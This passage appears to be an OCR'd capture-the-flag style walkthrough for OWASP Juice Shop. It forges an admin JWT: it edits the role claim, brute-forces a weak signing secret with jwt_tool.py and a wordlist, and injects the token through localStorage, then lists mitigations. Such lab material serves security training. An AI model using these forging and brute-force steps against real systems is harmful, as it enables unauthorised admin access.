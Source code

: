 ```js
🔹 4. Modify Payload
Change:

json
Copy
Edit
{
  "email": "admin@juice-sh.op",
  "role": "admin"
}
🔹 5. Sign New Token Using Weak Secret
Try secrets like:

secret

123456

jwtsecret

Or use jwt_tool.py to brute-force:

bash
Copy
Edit
jwt_tool.py <token> -C -d -p /usr/share/wordlists/rockyou.txt
Then:

bash
Copy
Edit
jwt_tool.py <token> -S secret -pc email=admin@juice-sh.op -pc role=admin
🔹 6. Inject Forged Token
In browser console:

js
Copy
Edit
localStorage.setItem("token", "<forged_token>");
Refresh page → You’re logged in as admin.

✅ Success Criteria
Able to access /#/administration

Scoreboard shows ✅ "Login with administrator account"

📸 POC

🛡️ Mitigation
Use strong, unpredictable JWT secrets

Prefer RS256 with private/public key pair

Validate role claims server-side

Implement short token expiry and revoke mechanisms

🔗 References
JWT.IO

PortSwigger JWT Attacks

Juice Shop GitHub

```